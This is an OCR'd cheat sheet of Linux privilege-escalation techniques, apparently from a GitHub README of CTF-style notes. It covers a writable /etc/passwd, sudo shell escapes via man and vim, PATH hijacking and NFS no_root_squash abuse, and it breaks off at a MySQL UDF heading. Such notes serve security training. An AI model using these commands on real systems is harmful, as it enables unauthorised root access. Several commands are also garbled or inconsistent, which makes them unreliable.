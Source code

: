 #### Writable /etc/passwd
```
openssl passwd newpasswordhere
```
Enter the new password in place of the existing one for the root account.

### SUDO Privileges - [Reference](https://gtfobins.github.io)

We can search for commands that can be executed with SUDO privileges without entering a password.
```
sudo -l
```
For example if the command "man" is in the list, i can use it to read a function manual, and then enter !/bin/bash to obtain an elevated shell.
```
sudo man ls
Another example with VIM.
sudo vim -c ‘!/bin/bash/ -i’
```
### PATH Vulnerability

We can search for writable folders with root privileges.
```
find / -type d -writable 2>/dev/null
```
Then we search for system PATH.
```
echo $PATH
```
If the folder we’re looking for isn’t listed in the PATH variable, we can manually add it.
```
export PATH=/home/murdoch:$PATH
```
Afterward, we create a new file in the root folder and execute it to gain root privileges.
```
echo “/bin/bash” > thm
chmod 777 thm
./test
```

### NFS - Network Files Sharing

We can search for shared folders. If we discover folder with "no_root_squash" attribute, we can assume the system is vulnerable.
```
cat /etc/exports
```
```
showmount -e 10.10.10.10
mkdir /tmp/backupAttack
mount -o rw 10.10.10.10:/backups /tmp/backupAttack
```
This way we can upload a file containing the !/bin/bash command.
Its execution grants us a root shell.
```
./nfs
```
### Mysql User Defined Function
